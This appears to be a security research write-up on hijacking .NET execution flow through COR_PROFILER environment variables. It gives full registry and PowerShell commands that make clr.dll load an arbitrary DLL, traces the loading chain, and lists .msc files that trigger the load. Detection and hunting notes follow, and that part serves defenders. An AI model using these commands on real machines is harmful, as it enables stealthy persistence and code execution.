




# Hijack Execution Flow COR_PROFILER

## Keynotes
Before any DLL execution done:  
`COR_ENABLE_PROFILING` must be `1`  
`COR_PROFILER_PATH` must be a valid `DLL` file since it will be trigger by `LoadLibrary()` later

## Execution
Two ways to add COR_* related Envrionment
- Registry based
- Session based (cmd.exe/powershell.exe prompt)

### Registry based
### Powershell
HKCU
```
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "{<CLISD>}" -Force
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value <FULL_FILE_PATH> -Force
```
HKLM
```
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -PropertyType String -Value "{<CLSID>}" -Force 
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -PropertyType String -Value <FULL_FILE_PATH> -Force
```

### Windows Command Line
HKCU
```
reg add "HKCU\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
reg add "HKCU\Environment" /v "COR_PROFILER" /t REG_SZ /d "{<CLSID>}" /f
reg add "HKCU\Environment" /v "COR_PROFILER_PATH" /t REG_SZ /d "<FULL_FILE_PATH>" /f
```
HKLM
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v "COR_PROFILER" /t REG_SZ /d "{<CLSID>}" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v "COR_PROFILER_PATH" /t REG_SZ /d "<FULL_FILE_PATH>" /f
```

### Session based / Registry free
### Powershell: Session based  
```
$env:COR_ENABLE_PROFILING = 1  
$env:COR_PROFILER = '{<CLSID>}'  
$env:COR_PROFILER_PATH = '<FULL_PATH_TO_DLL>'
```

### Powershell: Permanent add $env in PS (USER)
```
[System.Environment]::SetEnvironmentVariable('COR_ENABLE_PROFILING', 1, [System.EnvironmentVariableTarget]::User)  
[System.Environment]::SetEnvironmentVariable('COR_PROFILER_PATH', '<FULL_PATH_TO_DLL>', [System.EnvironmentVariableTarget]::User)  
[System.Environment]::SetEnvironmentVariable('COR_PROFILER', '{<CLSID>}', [System.EnvironmentVariableTarget]::User)
```

## Analysis
### General Flow
The binary will loads `clr.dll` and get the config of `COR_PROFILER`. After going through few functions. It will leads to `LoadLibrary()` that will load the DLL that declared in the `COR_PROFILER_PATH`



### Function chain inside `clr.dll` that will trigger the loading of DLL declared in `COR_PROFILER_PATH`
```
ProfilingAPIUtility::InitializeProfiling()   ProfilingAPIUtility::AttemptLoadProfilerForStartup() 
CLRConfig::GetConfigValue() COR_ENABLE_PROFILING/COR_PROFILER/COR_PROFILER_PATH  
ProfilingAPIUtility::LoadProfiler()  
EEToProfInterfaceImpl::Init()  
EEToProfInterfaceImpl::CreateProfiler  
CoCreateProfiler  
FakeCoCreateInstanceEx()  
FakeCoCallDllGetClassObject()  
LoadLibrary()
```

### For mmc.exe case
The struct of `CSnapInReference` that passed into `mmcndmgr.dll -> CreateSnapIn()` will decide whether `clr.dll` will be load and getting config of `COR_PROFILER`

Load clr.dll if `CFxSnapInReference` was loadded  


Does not load clr.dll if **NOT** `CFxSnapInReference` loaded  


### Register based
When the .msc loads one of the FX:{CLSID}, it will load of `clr.dll` and leads to `LoadLibrary()` of the DLL in `COR_PROFILER_PATH`.  

According to [Microsoft Doc](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/ms692747(v=vs.85)), FX is a prefix that is used to distinguish MMC 3.0 snap-ins from the older snap-ins.  

Those FX:{CLSID} can be found in registry key `HKLM\SOFTWARE\Microsoft\MMC\SnapIns`

### Session based / Registry Free
- The prompt needs to execute those dotnet binary in same session
- Any dotnet binary will trigger the check for COR_* related environment variables

## Hunt
### List of .msc available  
http://www.auditiait.es/en/list-of-commands-msc/  
https://ss64.com/nt/syntax-mmc.html
### Enumerate more .msc in your machine 
`dir c:\windows\*.msc /s /b /p`

### List of .msc (Not limited to) 
These .msc will trigger the loading of preload of COR_PROFILER
- comexp.msc
- compmgmt.msc
- eventvwr.msc
- gpedit.msc
- secpol.msc
- taskschd.msc
- tpm.msc
- wf.msc
- devmoderunasuserconfig.msc (Need UAC)

## Detection
### Process
mmc.exe that loads clr.dll


### Process chain
mmc.exe -> INTERSTING.msc

### Registry Key
Any COR_* related registry name found in:  
```
HKCU:\Environment  
HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
```
Remember `COR_ENABLE_PROFILING` must be `1` and 
investigate binary inside `COR_PROFILER_PATH`

### Windows Event
Sourcetype: Application  
Event ID: 1022 shows error (For mmc.exe)  
Note: It might contain lots of FPs


Sourcetype: Powershell
Note: Powershell script block if possible

## References

<https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/ms692747(v=vs.85)>  
<http://www.auditiait.es/en/list-of-commands-msc/>  
<https://ss64.com/nt/syntax-mmc.html>  
